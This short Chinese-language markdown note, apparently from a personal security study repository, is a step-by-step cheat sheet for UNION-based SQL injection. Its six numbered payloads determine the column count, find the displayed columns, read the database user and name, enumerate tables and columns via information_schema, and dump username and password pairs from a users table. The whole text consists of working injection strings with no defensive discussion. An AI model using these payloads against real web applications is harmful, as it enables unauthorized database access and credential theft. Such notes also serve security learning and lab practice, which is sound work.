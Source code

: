 <!--
title: 04-Sql注入
sort:
-->

## 联合查询

1. 判断列数

   `1' order by 3 --+ `

2. 判断值对应的列数

   `0' union select 1,2,3 --+ `

3. 查询用户及数据库信息

   ` 0' union select 1,user(),database() --+`

4. 查询表名

   `0' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --+`

5. 查询列名

   `0' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' --+`

6. 查询信息

   `0' union select 1,group_concat(username,0x3a,password),3 from users --+`
